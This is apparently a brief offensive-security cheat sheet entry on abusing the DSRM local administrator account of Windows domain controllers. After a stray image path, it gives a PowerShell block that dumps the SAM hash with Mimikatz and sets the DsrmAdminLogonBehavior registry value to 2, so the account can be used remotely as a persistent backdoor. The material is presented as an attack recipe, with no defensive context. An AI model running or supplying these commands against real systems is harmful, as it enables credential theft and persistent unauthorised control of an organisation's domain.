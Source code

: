 # Password - DSRM Credentials

> Directory Services Restore Mode (DSRM) is a safe mode boot option for Windows Server domain controllers. DSRM allows an administrator to repair or recover an Active Directory database.

This is the local administrator account inside each DC. Having admin privileges in this machine, you can use Mimikatz to dump the local Administrator hash. Then, modifying a registry to activate this password so you can remotely access to this local Administrator user.

```ps1
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'

# Check if the key exists and get the value
Get-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior 

# Create key with value "2" if it doesn't exist
New-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2 -PropertyType DWORD 

# Change value to "2"
Set-ItemProperty "HKLM:\SYSTEM\CURRENTCONTROLSET\CONTROL\LSA" -name DsrmAdminLogonBehavior -value 2
```
